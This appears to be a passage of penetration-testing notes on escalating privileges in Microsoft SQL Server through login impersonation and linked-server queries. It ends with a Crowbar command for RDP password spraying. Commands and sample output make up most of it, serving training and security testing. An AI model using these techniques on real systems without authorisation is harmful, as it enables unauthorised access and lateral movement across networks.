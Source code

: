 > [!NOTE]
> **Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

We can now execute any command as a sysadmin as the returned value `1` indicates. To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.

> [!NOTE]
> **Note:** If we find a user who is not sysadmin, we can still check if the user has access to other databases or linked servers.

### Communicate with Other Databases with MSSQL

Identify linked Servers in MSSQL
```shell
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

(2 rows affected)
```

Identify the user used for the connection and its privileges
```shell
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```

> [!NOTE]
> **Note:** If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

## RDP

Crowbar - RDP Password Spraying

```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
